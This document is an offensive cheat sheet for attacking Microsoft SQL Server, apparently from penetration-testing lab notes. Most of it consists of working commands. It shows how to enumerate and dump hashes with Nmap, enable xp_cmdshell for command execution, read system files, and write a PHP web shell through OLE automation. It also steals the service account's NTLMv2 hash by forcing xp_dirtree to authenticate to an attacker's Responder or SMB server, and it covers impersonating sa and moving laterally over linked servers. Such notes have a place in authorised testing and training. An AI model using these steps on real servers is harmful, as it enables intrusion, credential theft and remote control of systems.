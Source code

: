 # MSSQL

## **Introduction**

> Microsoft SQL (MSSQL) is Microsoft's SQL-based relational database management system\
> The default MSSQL port is 1433 TCP

***

## **MSSQL Enumeration & Connection to the Server**

* Enumeration with Nmap NSE:\
  `sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248`
* Log in to the MSSQL server using Windows authentication:\
  `mssqlclient.py <user>@<FQDN/IP> -windows-auth`
* Connect to the MSSQL Server using sqlcmd:\
  `sqlcmd -S SRVMSSQL -U validuser -P validpassword -y 30 -Y 30`
* Connect to the MSSQL Server using sqsh:\
  `sqsh -S 10.129.203.7 -U validuser -P validpassword -h`
* Connect using local windows account:\
  `sqsh -S 10.129.203.7 -U .\\validuser -P validpassword -h`

***

## **Interacting with a MSSQL Server**

| Command                                                  | Description                        |
| -------------------------------------------------------- | ---------------------------------- |
| SELECT name FROM master.dbo.sysdatabases                 | Show databases                     |
| USE users                                                | Use a database                     |
| SELECT table\_name FROM users.INFORMATION\_SCHEMA.TABLES | Show tables from users database    |
| SELECT \* FROM users                                     | Select all Data from Table "users" |

***

## **MSSQL Command Execution**

> MSSQL can allow command execution through the xp\_cmdshell command: `xp_cmdshell 'whoami'`\
> The commands will be executed using the mssql's service account privileges.

**Enabling xp\_cmdshell:**\
If xp\_cmdshell is disabled, you might be able to enable it using the following commands:

```
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

***

## **MSSQL File Read**

We can read any file to which the account has read access using the following query:

`SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`

***

## **MSSQL File Write**

> * To write files using MSSQL, we need to enable Ole Automation Procedures, which requires admin privileges
> * After that, we need to execute some stored procedures to create the file:

1.  **Enable Ole Automation Procedures:**

    ```
    sp_configure 'show advanced options', 1
    RECONFIGURE
    sp_configure 'Ole Automation Procedures', 1
    RECONFIGURE
    ```
2.  **Create a File:**

    ```
    DECLARE @OLE INT
    DECLARE @FileID INT
    EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
    EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\path\to\your\webshell.php', 8, 1
    EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
    EXECUTE sp_OADestroy @FileID
    EXECUTE sp_OADestroy @OLE
    ```

***

## **Capture MSSQL Service Hash**

> * It's possible to capture the MSSQL Service user's account hash using a fake SMB Server or Responder
> * When using the MSSQL `xp_subdirs` or `xp_dirtree` stored procedures pointing to our fake SMB Server, the MSSQL Service will be forced to authenticate using his NTLMv2 hash

**Follow these steps:**

1. Start Responder or start SMB fake server:\
   `sudo responder -I tun0` or `sudo impacket-smbserver share ./ -smb2support`
2. Hash stealing through xp\_dirtree: `EXEC master..xp_dirtree '\\10.10.110.17\share\'`
3. Hash stealing through xp\_subdirs: `EXEC master..xp_subdirs '\\10.10.110.17\share\'`

***

## **MSSQL - Impersonate Existing Users**

> SQL Server has a special permission, named IMPERSONATE, that allows the executing user to take on the permissions of another user or login until the context is reset or the session ends

**To impersonate a user:**

1.  Verify if current account is a sysadmin (By default, sysadmins can impersonate any user)

    ```
    SELECT SYSTEM_USER
    SELECT IS_SRVROLEMEMBER('sysadmin')
    ```
2.  Identify the users that we can impersonate:

    ```
    SELECT distinct b.name
    FROM sys.server_permissions a
    INNER JOIN sys.server_principals b
    ON a.grantor_principal_id = b.principal_id
    WHERE a.permission_name = 'IMPERSONATE'
    ```
3.  Impersonate a user (example: sa)

    ```
    EXECUTE AS LOGIN = 'sa'
    ```

***

## **Communicating with Other Databases \[Linked Servers]**

> * MSSQL has a configuration option called linked servers
> * If we manage to gain access to a SQL Server with a linked server configured, we may be able to move laterally to that database server.
> * Administrators can configure a linked server using credentials from the remote server.
> * If those credentials have sysadmin privileges, we may be able to execute commands in the remote SQL instance.

**Follow these steps:**

1. Identify Linked Servers in MSSQL:\
   `SELECT srvname, isremote FROM sysservers`
2. Identify the user for the connection and its privileges:\
   `EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.10.10.100\SQLSERVERNAME]`
